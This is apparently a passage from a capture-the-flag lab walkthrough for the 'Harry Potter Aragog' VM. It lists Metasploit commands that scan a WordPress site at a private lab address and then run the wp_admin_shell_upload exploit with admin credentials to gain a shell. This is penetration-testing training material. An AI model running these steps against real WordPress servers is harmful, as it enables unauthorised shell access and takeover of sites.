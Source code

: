 ### 2. Use the WordPress Scanner Module
Load the WordPress scanner module to scan for vulnerabilities:
```bash
use auxiliary/scanner/http/wordpress_scanner
```

### 3. Set the Target
Set the target URL or IP address of the WordPress site:
```bash
set RHOSTS 192.168.16.34
```

### 4. Run the Scanner
Execute the scanner to search for vulnerabilities:
```bash
run
```
The output will list any vulnerabilities found. Note any specific exploit modules suggested by the scanner.

### 5. Select the Exploit Module
Based on the scanner's findings, choose the appropriate exploit module. For example, if the scanner finds a vulnerable plugin, you might use:
```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

### 6. Set Required Options
Configure the exploit module with the necessary options:
```bash
set RHOST 192.168.16.34
set TARGETURI /wordpress/
set USERNAME admin
set PASSWORD password
```
Adjust the options based on the specific exploit and target environment.

### 7. Run the Exploit
Execute the exploit:
```bash
run
```
![image5](https://github.com/kanhaiyasingh12/HARRY-POTTER-ARAGOG-1.0.2-/blob/main/Screenshot%202024-05-23%20063057.png)
